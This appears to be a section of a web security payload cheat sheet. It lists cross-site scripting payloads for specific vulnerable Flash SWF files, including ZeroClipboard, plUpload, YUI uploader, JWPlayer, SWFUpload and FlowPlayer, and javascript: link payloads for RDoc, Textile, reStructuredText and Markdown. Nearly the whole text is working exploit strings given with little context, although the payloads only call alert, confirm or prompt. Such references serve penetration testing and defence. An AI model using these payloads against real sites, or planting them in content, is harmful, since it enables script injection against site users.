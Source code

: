
**Flash SWF XSS**

- ZeroClipboard: `ZeroClipboard.swf?id=\"))}catch(e){confirm(/XSS./.source);}//&width=500&height=500&.swf`

- plUpload Player: `plupload.flash.swf?%#target%g=alert&uid%g=XSS&`

- plUpload MoxiePlayer: `Moxie.swf?target%g=confirm&uid%g=XSS` (also works with `Moxie.cdn.swf` and other variants)

- FlashMediaElement: <code>flashmediaelement.swf?jsinitfunctio%gn=alert`1`</code>

- videoJS: `video-js.swf?readyFunction=confirm` and `video-js.swf?readyFunction=alert%28document.domain%2b'%20XSS'%29`

- YUI "io.swf": `io.swf?yid=\"));}catch(e){alert(document.domain);}//`

- YUI "uploader.swf": `uploader.swf?allowedDomain=\%22}%29%29%29}catch%28e%29{alert%28document.domain%29;}//<`

- Open Flash Chart: `open-flash-chart.swf?get-data=(function(){alert(1)})()`

- AutoDemo: `control.swf?onend=javascript:alert(1)//`

- Adobe FLV Progressive: `/main.swf?baseurl=asfunction:getURL,javascript:alert(1)//` and `/FLVPlayer_Progressive.swf?skinName=asfunction:getURL,javascript:alert(1)//`

- Banner.swf (generic): `banner.swf?clickTAG=javascript:alert(document.domain);//`

- JWPlayer (legacy): `player.swf?playerready=alert(document.domain)` and `/player.swf?tracecall=alert(document.domain)`

- SWFUpload 2.2.0.1: `swfupload.swf?movieName="]);}catch(e){}if(!self.a)self.a=!confirm(1);//`

- Uploadify (legacy): `uploadify.swf?movieName=%22])}catch(e){if(!window.x){window.x=1;confirm(%27XSS%27)}}//&.swf`

- FlowPlayer 3.2.7: `flowplayer-3.2.7.swf?config={"clip":{"url":"http://edge.flowplayer.org/bauhaus.mp4","linkUrl":"JavaScriPt:confirm(document.domain)"}}&.swf`

_Note: Useful reference on constructing Flash-based XSS payloads available at [MWR Labs](https://labs.mwrinfosecurity.com/blog/popping-alert1-in-flash/)._

**Lightweight Markup Languages**

**RubyDoc** (.rdoc)

```rdoc
XSS[JavaScript:alert(1)]
```

**Textile** ([.textile](https://txstyle.org/))

```textile
"Test link":javascript:alert(1)
```

**reStructuredText** ([.rst](http://docutils.sourceforge.net/docs/user/rst/quickref.html))

```rst
`Test link`__.

__ javascript:alert(document.domain)  
```


[a]: (javascript:prompt(1))